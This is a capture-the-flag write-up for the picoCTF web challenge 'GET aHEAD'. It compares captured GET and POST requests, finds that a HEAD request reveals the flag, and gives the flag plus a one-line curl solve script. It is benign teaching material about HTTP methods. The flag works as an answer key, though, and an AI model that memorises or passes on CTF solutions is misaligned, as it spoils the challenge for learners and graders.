 Links [[00 - Global Index (Start Here!)]] [[01 - PicoGym]] [[Web Challenges]]

# [[01 - GET aHEAD]]
## Contents
***
- [Task Description](01%20-%20GET%20aHEAD.md#Task%20Description)
- [Notes](01%20-%20GET%20aHEAD.md#Notes)
- [Solve Script](01%20-%20GET%20aHEAD.md#Solve%20Script)

### Task Description
---
Find the flag being held on this server to get ahead of the competition [http://mercury.picoctf.net:53554/]

### Notes
---
Looking at the requests in burp to see what causes the page to change
**For red:**
``` http
GET /index.php? HTTP/1.1
Host: mercury.picoctf.net:53554
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://mercury.picoctf.net:53554/index.php
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```
**For Blue**
```http
POST /index.php HTTP/1.1
Host: mercury.picoctf.net:53554
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
Origin: http://mercury.picoctf.net:53554
Connection: close
Referer: http://mercury.picoctf.net:53554/index.php?
Upgrade-Insecure-Requests: 1
```
The thing that is changing is the request type on the first line. As the challenge is called *GET aHEAD* lets try a HEAD request.
This works and gives out the flag:
```flag
flag: picoCTF{r3j3ct_th3_du4l1ty_2e5ba39f}
```

## Solve Script
---
```bash
curl -I http://mercury.picoctf.net:53554/index.php | grep pico | awk -F': ' '{print $2}'
```


---
Creation date: 08-10-2022
Last modified date: Sunday 8th October 2022
***


